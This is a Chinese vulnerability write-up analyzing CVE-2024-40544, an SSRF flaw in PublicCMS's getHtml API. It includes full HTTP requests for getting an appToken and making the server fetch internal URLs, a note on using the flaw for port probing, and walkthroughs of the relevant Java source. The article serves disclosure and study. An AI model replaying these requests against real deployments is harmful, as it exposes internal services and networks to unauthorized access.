# CVE-2024-40544 /getHtml 接口导致SSRF 漏洞详细分析-先知社区

> **来源**: https://xz.aliyun.com/news/16955  
> **文章ID**: 16955

---

# CVE-2024-40544 /getHtml 接口导致SSRF 漏洞详细分析

## 环境搭建

<https://github.com/sanluan/PublicCMS>

然后配置数据库启动即可

进入后台后如下



## 漏洞复现

首先需要获取到我们的 apptoken



授权应用



获取 appKey 和 appSecret

然后通过接口获取到 apptoken



获取之后我们就可以调用各种 api 了

```
GET /api/method/getHtml?appToken=3a541f37-0b47-4df5-a2a0-8b9c9521666c&parameters=http://127.0.0.1:8888/admin HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; JSESSIONID=7662038A2E8B79427A81C1BFFEBB121B; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb
Connection: keep-alive


```

而我们的 getHtml 接口存在 ssrf 漏洞


成功访问到页面的内容，当然还可以探测端口

我的是 8888 端口如果访问没有开放的端口


就会返回 null

访问开放的端口就会返回页面内容



## 漏洞分析

首先我们找到漏洞的 sink 点

根据路由找到 GetHtmlMethod



这里如何调用这个 api 已经说明了  


可以看到这里会对我们的输入的 url 发起请求

但是需要我们的 appToken，而且需要去鉴权

我们寻找一下如何获取 appToken

com/publiccms/views/directive/api/AppTokenDirective.java

```
/**
*
* appToken 接口访问授权Token获取接口
* <p>
* 参数列表
* <ul>
* <li><code>appKey</code>:应用key
* <li><code>appSecret</code>:应用密钥
* </ul>
* <p>
* 返回结果
* <ul>
* <li><code>appToken</code>:接口访问授权Token
* <li><code>expiryDate</code>:过期日期
* <li><code>error</code>:错误信息,当appKey、appSecret为空或错误时返回【secretError】
* </ul>
* 使用示例
* <p>
* <pre>
&lt;script&gt;
$.getJSON('${site.dynamicPath}api/appToken?appKey=1&amp;appSecret=1', function(data){
  $('article p em').text(data.clicks);
});
&lt;/script&gt;
* </pre>
*/
```

也是告诉了我们的

```
public void execute(RenderHandler handler, SysApp app, SysUser user) throws IOException, Exception {
    SysApp entity = appService.getEntity(handler.getString("appKey"));
    if (null != entity) {
        if (entity.getAppSecret().equalsIgnoreCase(handler.getString("appSecret"))) {
            Date now = CommonUtils.getDate();
            SysAppToken token = new SysAppToken(UUID.randomUUID().toString(), entity.getId(), now);
            if (null != entity.getExpiryMinutes()) {
                token.setExpiryDate(DateUtils.addMinutes(now, entity.getExpiryMinutes()));
            }
            appTokenService.save(token);
            handler.put("appToken", token.getAuthToken());
            handler.put("expiryDate", token.getExpiryDate());
        } else {
            handler.put("error", SECRET_ERROR);
        }
    } else {
        handler.put("error", SECRET_ERROR);
    }
    handler.render();
}
```

需要我们的 appKey 和 appSecret

调试分析一下流程

发送请求

```
GET /api/appToken?appKey=4a7099b9-f227-4fb9-9389-47af8a90b128&appSecret=0a5d1e8a-7a80-43a7-adcf-38064e64600f HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; JSESSIONID=7662038A2E8B79427A81C1BFFEBB121B; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb
Connection: keep-alive
```



获取到我们传入的 key 和 id 后生成 token

保存后返回 token 值和有效时间

然后调用 getHtml api

```
GET /api/method/getHtml?appToken=3a541f37-0b47-4df5-a2a0-8b9c9521666c&parameters=http://127.0.0.1:8888 HTTP/1.1
Host: 127.0.0.1:8888
sec-ch-ua: "Chromium";v="125", "Not.A/Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: MAIN_MENU_COLLAPSE=false; DG_USER_ID_ANONYMOUS=e5dbe5efa486485aa7d6260b97b1fe1d; JSESSIONID=7662038A2E8B79427A81C1BFFEBB121B; PUBLICCMS_ADMIN=1_6c1a761a-4f04-4c9a-85b9-b23cfd4a95fb
Connection: keep-alive


```



首先检测 token 的合法性，然后检测这个 token 是否有对应的权限



解析参数，调用对应的 api 方法传入我们的参数

  
发起请求导致了 ssrf
